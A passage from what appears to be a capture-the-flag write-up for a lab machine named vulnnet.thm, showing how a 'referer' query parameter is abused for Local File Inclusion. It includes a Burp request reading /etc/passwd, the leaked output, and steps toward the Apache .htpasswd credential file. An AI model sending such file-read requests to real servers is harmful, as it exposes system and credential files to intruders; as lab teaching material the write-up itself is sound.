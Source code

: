 ```js
---snip---
, n.n = function (e) {var t = e && e.__esModule ? function () { return e.default } : function () { return e }; return n.d(t, "a", t), t}, n.o = function (e, t) { return Object.prototype.hasOwnProperty.call(e, t) }, 
        n.p = "http://vulnnet.thm/index.php?referer=", n(n.s = 0)}({
---snip---
```

### referer=

When clicking on the subscribe button we can see that there is a new Header `Referer: http://vulnnet.thm/?`. So this JS file and function is setting `referer` to the current page we are currently on.

>When you see query parameters in URLs, try LFI Local File Inclusion.
{: .prompt-tip }

Loading the page and sending the request to the `repeater` tab of Burp allows us to try many types of paths for our `LFI`.

```yaml
GET /index.php?referer=/etc/passwd HTTP/1.1
Host: vulnnet.thm
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Trying `/etc/passwd` and searching the response for `root:` we get one match, meaning we read out the contents of `/etc/passwd` and we now have a list of all the users on this system.



```html
root:x:0:0:root:/root:/bin/bash
---snip---
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
mysql:x:112:123:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
```

### Apache config

Now we can read out files that belong to the web server we should be able to find the Apache config files.
From our nmap banners we know this system is running `Apache httpd 2.4.29` on `Ubuntu`.  Searching the web for this information we'll find that the default config location is `/etc/apache2/apache2.conf` and `/etc/apache2/sites-available/000-default.conf`

Checking `/etc/apache2/sites-available/000-default.conf` and finding the section for `broadcast.vulnnet.thm` we can see the path for `AuthUserFile` is `/etc/apache2/.htpasswd`.  This file should have a username and password.

